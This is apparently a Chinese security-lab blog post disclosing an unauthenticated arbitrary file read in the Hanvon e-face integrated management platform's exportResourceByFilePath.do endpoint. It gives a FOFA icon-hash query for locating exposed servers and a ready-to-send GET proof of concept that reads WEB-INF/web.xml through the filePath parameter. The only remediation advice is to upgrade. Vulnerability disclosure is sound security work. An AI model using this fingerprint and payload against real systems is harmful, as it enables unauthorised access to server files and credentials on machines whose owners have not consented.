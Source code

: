 #  汉王e脸通综合管理平台 exportResourceByFilePath.do 任意文件读取漏洞  
原创 zz  星络安全实验室   2025-07-20 07:11  
  
<table><tbody><tr><td data-colwidth="576"><section><span leaf="">免责声明:文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，未授权的攻击属于非法行为!文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责作者不为此承担任何责任，一旦造成后果请自行负责</span></section></td></tr></tbody></table>  
漏洞详情：  
  
汉王e脸通综合管理平台的exportResourceByFilePath.do接口存在未授权文件读取安全缺陷。攻击者能够绕过身份验证机制，通过精心构造的请求参数向该接口提交任意系统文件路径，从而导致服务器敏感信息被非法获取，严重威胁系统数据安全性和完整性  
  
漏洞复现：  
  
fofa：  
```
icon_hash="1380907357"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVfkiankw0tcSNyVgbWw5T3Cn32oK5onibRRWjWIPvVOkibya8nnH0PM7HkNCvibZ3l5fAC2mO1xzQ9XUQ/640?wx_fmt=png&from=appmsg "")  
  
poc：  
```
GET /manage/leaveList/exportResourceByFilePath.do?filePath=WEB-INF/web.xml HTTP/1.1
Host:xx
```  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVfkiankw0tcSNyVgbWw5T3Cn5IW9ia7tTwibeKzib0lGGrAtVFoV5uQ9khpjHq0IETqM9nE2vibsszR0mg/640?wx_fmt=png&from=appmsg "")  
  
修复意见：  
  
关注厂商动态，升级至安全版本  
  
